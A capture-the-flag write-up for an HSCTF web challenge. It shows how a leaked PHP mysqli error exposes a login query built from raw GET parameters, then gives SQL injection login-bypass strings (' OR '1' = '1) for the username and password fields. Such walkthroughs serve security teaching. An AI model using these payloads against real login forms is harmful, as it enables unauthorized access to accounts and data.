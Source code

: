 # S-Q-L

# Description:
Written by: dwang

> Keith keeps trying to keep his flag safe. This time, he used a database and some PHP.
>
> https://s-q-l.web.chal.hsctf.com/

# Solution:
- Try entering some unexpected input and you'll soon get a php mysqli error like this:
```
Warning
: mysqli_num_rows() expects parameter 1 to be mysqli_result, boolean given in
/var/www/html/index.php
on line
5
```
- Now we can imagine the query looks something like this: `"SELECT * FROM users WHERE username = '" + $_GET["username"] + "' AND password = '" + $_GET["password"] + "'`

- To exploit this, use something like:
	- Username: `' OR '1' = '1`
	- Password: `1' OR '1' = '1`
